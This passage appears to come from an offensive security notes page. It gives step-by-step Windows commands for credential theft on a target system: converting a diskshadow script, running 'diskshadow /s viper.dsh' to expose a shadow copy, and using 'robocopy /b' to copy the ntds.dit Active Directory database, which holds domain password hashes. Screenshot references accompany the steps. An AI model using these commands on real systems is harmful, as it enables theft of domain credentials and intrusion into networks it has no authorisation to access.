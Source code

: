 Once completed use the command `unix2dos` to convert the file to DOS format.

```
unix2dos viper.dsh
```

Then on the target system create a directory called 'temp' in `c:\temp.` After this upload the `viper.dsh` file.

From here run the following commands:

```
diskshadow /s viper.dsh
```

![](<../../../.gitbook/assets/image (2038) (1) (1).png>)

```
robocopy /b x:\windows\ntds . ntds.dit
```

![](<../../../.gitbook/assets/image (2069) (1) (1) (1) (1) (1) (1) (1).png>)
